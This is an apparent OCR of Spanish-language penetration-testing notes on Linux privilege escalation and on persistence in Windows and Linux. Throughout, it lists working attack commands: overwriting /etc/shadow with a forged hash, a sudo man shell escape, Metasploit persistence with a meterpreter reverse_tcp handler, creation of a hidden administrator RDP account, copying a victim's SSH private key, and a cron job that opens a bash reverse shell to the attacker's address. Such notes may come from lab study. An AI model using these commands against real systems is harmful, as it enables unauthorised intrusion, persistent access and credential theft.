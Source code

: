 
ESCALADA DE PRIVILEGIOS EN LINUX (Malas configuraciones)

whoami
cat /etc/passwd
groups
cat /etc/group
groups usuario
find / -not -type l -perm -O+W -Enumerar archivos que pueden ser modificados por cualquier usuario ej: /etc/shwadow
ls -la /etc/shadow -Confirmar los permisos que se tienen
openssl passwd -1 salt abc Password -Crear una contraseña co hasheado valido para cargar en el etc/shdows

sudo -l -Enumerar los permisos de binarios ej: (root) NOPASSWD: /urs/bin/man

man ls -Pagina de comandos
sudo man 
!/bin/bash -Agregando esto hace que el archivo que se podia abrir con privilegios y sin contraseña se ejecute, en este caso tiene una sesion bash



PERSISTENCIA EN WINDOWS

search persistence -Se necesitan permisos de administrador para poder usar este modulo
set PAYOAD default (windows/meterpreter/reverse_tcp)

Iniciar nuevamente la session, aunque sea luego de cerrarla
search multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT (MismoPuerto que con "persistence")
exploit -Se abre automaticamente al detectar que el puerto esta escuchando con el payload especifico y el host especifico

Persistencia via RDP - Creando una nueva cuenta de usuario en el grupo de administradores (Hay que ser administrador)
pgrep explorer.exe
migrate 3344
run getgui -e -u Nombre -p Password123 -Crea el usuario, activa el puerto RDP, evade el firewall, evita que sea visible e usuario y lo agrega al grupo del administrador

xfreerdp3 /u:Nombre /p:Password123 /v:IP


PERSISTENCIA EN LINUX

Persistencia con claves SSH

scp usuario@IP:~/.ssh/id_rsa . -scp es una funcionalidad que permite traer archivos de una maquina victima a la nuestra 
chmod 400 id_rsa  
-Se vuelve a iniciar el ssh pero ingresando la llave priavada

Permanencia con CronJobs

cat /etc/*cron
echo "* * * * * /bin/bash -i -c'bash -i >& /dev/tcp/IPMia/Port 0&1'" > cron -Crear un cronjob que se ejecute todo el tiempo
crontab -i cron -Agregar cron a los cronjobs, para acceder con los permisos actuales
crontab -l -Ver los cronjobs activos
